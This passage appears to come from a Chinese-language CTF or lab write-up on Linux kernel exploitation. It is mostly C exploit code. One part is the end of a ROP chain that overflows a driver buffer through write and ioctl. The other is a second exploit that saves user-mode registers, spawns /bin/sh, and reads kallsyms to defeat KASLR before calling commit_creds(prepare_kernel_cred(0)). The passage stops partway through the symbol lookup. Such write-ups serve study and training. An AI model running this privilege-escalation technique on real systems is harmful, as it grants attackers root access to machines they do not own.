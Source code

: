 ```c
    buf[i++] = (size_t)get_shell;
    buf[i++] = user_cs;
    buf[i++] = user_rflags;
    buf[i++] = user_sp;
    buf[i++] = user_ss;

    write(fd, buf, 0x800);
    ioctl(fd, 0x6677889A, 0xffffffffffff0000|0x100);

    return 0;
}

```

> 上面的 ROP 链中，使用了函数指针的方法来执行 commit_creds(prepare_kernel_cred(0))，虽然这是在用户函数中去调用内核函数，但是我们还在 ROP 的过程中，还是 ring0 的特权，当然也可以通过直接 ROP 的方法来调用两个函数：
> 

```c
// author: @eastXueLian
// usage : musl-gcc ./exp.c -static -masm=intel -o ./rootfs/exp

#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#define lg(X) printf("\\033[1;31;40m[*] %s --> 0x%lx \\033[0m\\n", (#X), (X))

size_t user_cs, user_ss, user_rflags, user_sp;
void save_status() {
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
    );
    puts("[*]status has been saved.");
}
void get_shell(void) {
    system("/bin/sh");
}

size_t commit_creds_addr, prepare_kernel_cred_addr, kaslr_offset;
void get_func_addrs() {
    FILE *fd = fopen("/tmp/kallsyms", "r");
    size_t cur_addr;
    char cur_type[0x10];
    char cur_func[0x40];
    char found = 0;

    while ( fscanf(fd, "%lx%s%s", &cur_addr, cur_type, cur_func) ) {
        if (found == 2)
            return;
        if (!strcmp(cur_func, "commit_creds")) {
            commit_creds_addr = cur_addr;
            kaslr_offset = commit_creds_addr - 0xffffffff8109c8e0;
            lg(kaslr_offset);
            lg(commit_creds_addr);
            found++;
        }
```